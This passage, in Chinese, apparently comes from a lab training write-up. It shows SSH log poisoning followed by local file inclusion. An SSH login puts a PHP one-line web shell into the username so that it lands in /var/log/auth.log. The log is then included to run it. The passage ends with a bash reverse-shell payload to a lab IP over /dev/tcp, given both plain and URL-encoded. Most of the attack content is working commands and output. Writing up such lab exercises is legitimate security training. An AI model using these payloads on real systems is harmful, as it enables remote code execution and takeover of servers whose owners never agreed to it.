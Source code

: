 **2.1 写入一句话木马**

SSH登录的PHP代码会当成用户名写入日志文件：`/var/log/auth.log`

```bash
┌──(kali㉿kali)-[~]
└─$ ssh '<?php system($_POST['cmd'])?>'@192.168.231.156    
<?php system($_POST[cmd])?>@192.168.231.156's password: 
Permission denied, please try again.
<?php system($_POST[cmd])?>@192.168.231.156's password: 
Permission denied, please try again.
<?php system($_POST[cmd])?>@192.168.231.156's password: 
<?php system($_POST[cmd])?>@192.168.231.156: Permission denied (publickey,password).
```

**2.2 包含日志文件-成功**

由于PHP代码经过`include`函数渲染之后没有了，所以不会在这里找到相关的PHP代码；但是依然会被执行~

![image-20231119231541464](%E9%9D%B6%E5%9C%BA%E8%AE%AD%E7%BB%83.assets/image-20231119231541464.png)

**2.3 nc 回弹**

一定是这条payload才能回弹~

```bash
bash -c 'bash -i >& /dev/tcp/192.168.231.153/4444 0>&1'
URL Encode
bash%20-c%20'bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.231.153%2F4444%200%3E%261'
```

![image-20231119232619419](%E9%9D%B6%E5%9C%BA%E8%AE%AD%E7%BB%83.assets/image-20231119232619419.png)
